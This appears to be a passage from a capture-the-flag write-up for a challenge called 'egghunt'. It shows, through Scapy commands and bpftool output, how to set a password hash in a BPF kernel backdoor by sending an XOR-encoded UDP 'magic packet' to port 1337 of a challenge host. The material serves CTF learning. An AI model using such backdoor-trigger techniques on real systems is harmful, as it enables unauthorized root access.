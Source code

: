 Generate an md5crypt hash for the password 'pass':
```
mkpasswd -m md5crypt
Password: pass
$1$wtuNYIeB$Bo28F812s3/AhXWZWIcso.
```

XOR the hash value (without $1$ prefix!) with 66 ('B') yields:
```
35 36 37 0c 1b 0b 27 00 66 00 2d 70 7a 04 7a 73 70 31 71 6d 03 2a 1a 15 18 15 0b 21 31 2d 6c
```
See [CyberChef](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Decimal','string':'66'%7D,'Standard',false)To_Hex('Space',0)&input=d3R1TllJZUIkQm8yOEY4MTJzMy9BaFhXWldJY3NvLg)

Craft and send the full packet (udp dst port 1337, udp len 42, udp payload begins with 'fsf' followed by XOR'd hash value)
```
>>> p = IP(dst="127.0.0.1")/UDP(dport=1337, len=0x2a)/Raw("fsf"+"\x35\x36\x37\x0
...: c\x1b\x0b\x27\x00\x66\x00\x2d\x70\x7a\x04\x7a\x73\x70\x31\x71\x6d\x03\x2a\x
...: 1a\x15\x18\x15\x0b\x21\x31\x2d\x6c")
>>> send(p)
.
Sent 1 packets.
```

Verify that the backdoor is enabled and the hash value has been set:
```
root@egghunt:/proc/974/fd# bpftool -p map dump id 4
[{
        "key": ["0x00","0x00","0x00","0x00"
        ],
        "value": ["0x01","0x24","0x31","0x24","0x77","0x74","0x75","0x4e","0x59","0x49","0x65","0x42","0x24","0x42","0x6f","0x32","0x38","0x46","0x38","0x31","0x32","0x73","0x33","0x2f","0x41","0x68","0x58","0x57","0x5a","0x57","0x49","0x63","0x73","0x6f","0x2e","0x00"
        ],
        "formatted": {
            "value": {
                ".bss": [{
                        "backdoor": {
                            "enabled": true,
                            "hash": "$1$wtuNYIeB$Bo28F812s3/AhXWZWIcso."
                        }
                    }
                ]
            }
        }
    }
]
```
W00t!

## Now it's Flag Time!
Send the magic packet to put hash for md5crypt password of **pass** into bpf backdoor.
```
>>> p = IP(dst="egghunt.challenges.adversary.zone")/UDP(dport=1337, len=0x2a)/Raw("fsf"+"\x35\x36\x37\x0c\x1b\x0b\x27\x00\x66\x00\x2d\x70\x7a\x04\x7a\x73\x70\x31\x71\x6d\x03\x2a\x1a\x15\x18\x15\x0b\x21\x31
...: \x2d\x6c")
>>> p
<IP  frag=0 proto=udp dst=Net('egghunt.challenges.adversary.zone') |<UDP  dport=1337 len=42 |<Raw  load="fsf567\x0c\x1b\x0b'\x00f\x00-pz\x04zsp1qm\x03*\x1a\x15\x18\x15\x0b!1-l" |>>>
>>> send(p)
.
Sent 1 packets.
```

